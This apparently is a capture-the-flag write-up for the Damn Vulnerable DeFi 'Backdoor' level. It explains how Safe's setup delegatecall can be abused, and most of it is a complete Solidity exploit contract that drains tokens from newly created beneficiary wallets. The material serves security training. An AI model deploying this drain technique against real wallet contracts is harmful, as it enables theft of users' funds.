 # 11. Backdoor

- In this level you had to create wallet contracts via a `Factory` contract
- You had to use `SafeProxyFactory` to create a `SafeProxy` contract which was pointing to the `Safe` wallet singleton implementation.
- For each created wallet there was 10 tokens transfered to it, the `WalletRegistry` contract had 4 beneficieries and 40 DVT tokens in total.

## The Attack:

- When calling the setup function of the `Safe` contract, you have an option to pass address and data, so that the contract can `delegatecall` it after the setup is complete.
- We use this `delegatecall` to approve the newly created wallet to spend tokens.
- We send the tokens to the attacking contract afterwards.

## Solution:

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {WalletRegistry} from "../WalletRegistry.sol";
import {Safe} from "@safe-global/safe-smart-account/contracts/Safe.sol";
import {SafeProxy} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxy.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";
import {DamnValuableToken} from "../../../src/DamnValuableToken.sol";
import {console2} from "forge-std/console2.sol";

contract AttackWalletRegistry {
    uint256 private constant EXPECTED_THRESHOLD = 1;
    uint256 private constant PAYMENT_AMOUNT = 10e18;

    constructor(
        WalletRegistry _walletRegistry,
        Safe _signletonCopy,
        SafeProxyFactory _walletFactory,
        DamnValuableToken _token,
        address _recovery,
        address[] memory _beneficiaries
    ) {
        console2.log("wallet registry balance before attack: ", _token.balanceOf(address(_walletRegistry)));
        for (uint256 i = 0; i < _beneficiaries.length; i++) {
            address[] memory owners = createOwners(_beneficiaries, i);
            bytes memory initializer = createInitializer(owners, _token);
            SafeProxy createdProxy =
                _walletFactory.createProxyWithCallback(address(_signletonCopy), initializer, i, _walletRegistry);
            _token.transferFrom(address(createdProxy), address(this), PAYMENT_AMOUNT);
            _token.transfer(address(_recovery), PAYMENT_AMOUNT);
        }
        console2.log("wallet registry balance after attack: ", _token.balanceOf(address(_walletRegistry)));
    }

    function createOwners(address[] memory _beneficiaries, uint256 i) internal pure returns (address[] memory owners) {
        owners = new address[](1);
        owners[0] = _beneficiaries[i];
    }

    function createInitializer(address[] memory owners, DamnValuableToken _token) internal returns (bytes memory) {
        Initializer initializer = new Initializer(address(this));
        address to = address(initializer);
        bytes memory data = abi.encodeWithSelector(Initializer.approveDvtToken.selector, _token);
        return abi.encodeWithSelector(
            Safe.setup.selector, owners, EXPECTED_THRESHOLD, to, data, address(0), address(0), 0, address(0)
        );
    }

    function approveDvtToken(address attacker, DamnValuableToken token) external {
        token.approve(attacker, PAYMENT_AMOUNT);
    }
}

contract Initializer {
    address private immutable attacker;
    uint256 private constant PAYMENT_AMOUNT = 10e18;

    constructor(address _attacker) {
        attacker = _attacker;
    }

    function approveDvtToken(DamnValuableToken token) external {
        token.approve(attacker, PAYMENT_AMOUNT);
    }
}
```
